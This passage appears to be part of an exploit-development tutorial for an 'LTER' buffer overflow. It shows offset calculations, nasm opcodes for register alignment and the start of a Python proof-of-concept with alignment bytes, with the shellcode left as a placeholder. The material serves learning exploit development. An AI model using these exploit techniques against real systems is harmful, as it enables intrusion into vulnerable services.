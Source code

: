 ![](/assets/img/LTER/13.png)

##### The following step is to make EAX point to the shellcode, so it can be inserted in ESI later on.

##### Calculating the address of the start of the shellcode against the value of EAX.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# hexcalc 0x0185F20C 0x0185ECA4 
0x568
root@whitecr0wz:~/Exploit-Dev/LTER# 
```

##### Getting the values for the calculation.

```term
nasm > add ax, 0x568  
00000000  66056805          add ax,0x568
nasm > 
```

##### The opcodes required for PUSH EAX, POP ESI.

```term
nasm > PUSH EAX 
00000000  50                push eax
nasm > POP ESI
00000000  5E                pop esi 
```

###### PoC code:

```term
import socket, sys, struct

[shellcode]

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"
alignment += "\x53\x58"
alignment += "\x66\x05\x68\x05"
alignment += "\x50\x5E"

```